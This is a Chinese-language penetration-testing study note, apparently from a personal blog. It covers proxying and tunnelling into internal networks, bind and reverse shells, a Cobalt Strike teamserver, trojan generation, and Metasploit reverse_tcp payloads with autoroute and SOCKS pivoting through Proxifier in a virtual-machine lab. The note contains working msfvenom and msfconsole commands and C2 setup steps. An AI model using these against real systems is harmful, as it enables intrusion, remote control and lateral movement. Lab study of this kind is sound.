 ```yaml
---
categories: [渗透测试]
tags: 代理 CobaltStrike MSF
---
```


# 2023.10.08

## 内网代理与隧道

### 代理

解决不出网的问题，比如 A 主机在外网，B 主机在内网，这时就需要将 A 主机当作跳板去访问 B 主机。

#### 转发

端口转发，也是解决访问问题，只不过是将某一个端口转发到外网服务器上。

### 隧道

解决协议问题，比如禁用了 http 或者 tcp 协议，这时就只能使用 icmp 等一些底层协议。

> **_Question:_** 在内网渗透中，该如何选择代理方式及隧道方式？

---

### 正向马、反向马

#### 正向马（bind shell）

攻击端主动连接目标机，常用于**内网渗透**中

> **_Attention:_** 这种情况下，Kali 攻击机可以出网，但目标主机不能出网
> ![2023-10-09-11-24-07.png](https://s2.loli.net/2023/10/09/9V3HT7FCMDl4i15.png)

#### 反向马（reverse shell）

目标机主动连接攻击端，常用于目标主机在外网中，比如：一句话木马

> **_Attention:_** 这种情况下，目标机可以出网，但 kali 攻击机不能出网
> ![2023-10-09-11-26-01.png](https://s2.loli.net/2023/10/09/el4D9qRVBPAMyC1.png)

---

### Cobalt Strike 的部署及使用

hacker ----> 服务器（cs 部署在外网） ----> 受害机

```bash
# 服务器端
sudo ./teamserver '服务器IP' 'password'
# 客户端 kali linux
./start.sh # 弹出窗口后输入服务器ip地址，可修改端口，用户名，密码为服务器端启动时的password

# 客户端 windows
## 双击运行start.bat
```

### Cobalt Strike 生成 windows 木马，生成 linux 木马

> **_Note:_** 外网的环境暂时不会弄代理，现在暂时全部使用虚拟机测试使用 cs

#### Ubuntu 搭建 cs 服务端

```bash
# 更换镜像源（不知道为啥之前一直没换）
vi /etc/apt/sources.list

apt-get update
apt-get install openjdk-11-jdk

./teamserver '服务器ip' 'password'
```

<details> <summary>镜像源文件内容</summary>
<pre><code class="language-bash">
# 镜像源文件内容
# 默认注释了源码镜像以提高 apt update 速度，如有需要可自行取消注释
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-updates main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-backports main restricted universe multiverse
deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-security main restricted universe multiverse
# 预发布软件源，不建议启用
# deb https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
# deb-src https://mirrors.tuna.tsinghua.edu.cn/ubuntu-ports/ jammy-proposed main restricted universe multiverse
</code></pre>
</details>

#### kali linux 搭建 cs 客户端

1. 输入服务端相关信息登入客户端界面
2. 使用下图的方式生成一个 exe 木马
   ![image.png](https://s2.loli.net/2023/10/09/9qzFV6jvOUkrIte.png)
3. 将木马复制到 windows 机器中，双击执行
4. 成功上线
   ![2023-10-09-16-12-26.png](https://s2.loli.net/2023/10/09/pIcQhf4CkJ5z98s.png)

#### CobaltStrike&SOCKS代理使用
> **_Note:_**为什么使用SOCKS代理？
>  
> 方便进行内网渗透，访问内网服务。

hacker ----> web机器 ----> 内网服务机器

##### Proxifier
Proxifier是一款全局代理客户端，它可以让应用程序通过代理服务器连接到互联网。

1. 在ubuntu开启cs服务端，kali开启cs客户端后，对win11会话进行代理转发，设置SOCKS4a代理，端口为29064。
2. 开启Proxifier客户端，新建一个SOCKS4a代理，服务器ip为ubuntu的ip地址，即10.211.55.5，端口为刚刚开启代理转发的端口，即29064。
3. 如果这个win11机器本身是不出网的，无法访问，那么没有设置proxifier规则的浏览器是无法访问这个机器的；但是如果添加了代理转发规则，这个浏览器就可以访问这个本来不出网的机器了。这是因为，proxifie将请求转发给了cs（10.211.55.5:29064）这个代理服务器，代理服务器将这个请求转发给了这台不出网机器，从而在这二者之间建立起了连接，不出网机器也可以将响应返回给客户端。

### Metasploit 生成 windows 正向反向木马，Linux 正向反向木马
#### msf生成反向x86马
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.137 LPORT=2323 -f exe > shell.exe

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp # 这里替换为生成使用的payload
set LHOST your-IP # msf所在机器的ip
set LPORT your-port # 连接的端口
exploit

show options # 查看配置

# 添加路由,在msf中添加路由的作用类似于cs中设置代理转发，作用是作为跳板代理出来
run post/multi/manage/autoroute
# 查看路由
arp -a
run autoroute -p
# 添加指定路由，1是接收的session编号
route add 192.168.11.0 255.255.255.0 1
# 挂起会话
background
# 查看路由表
route print

# 设置SOCKS代理
use auxiliary/server/socks_proxy
# 其他选项其实都不用改
set srvhost 0.0.0.0
set srvport 1115
run
```
#### Proxifier
在msf中设置SOCKS代理后，再次开启proxifier进行代理添加，与之前相同，填写msf所在机器的ip与相应的端口。再次尝试浏览器对这个ip地址进行访问。 

> **_Note:_**在proxifier中新建代理有两种情况：
>![](2023-10-10-15-56-24.png)
> 1. 选择某一应用程序，则只有在使用此应用程序时会走代理
> 2. 在target host中写入192.168.58.*，则在所有应用程序访问这个网段时均可以走这个代理

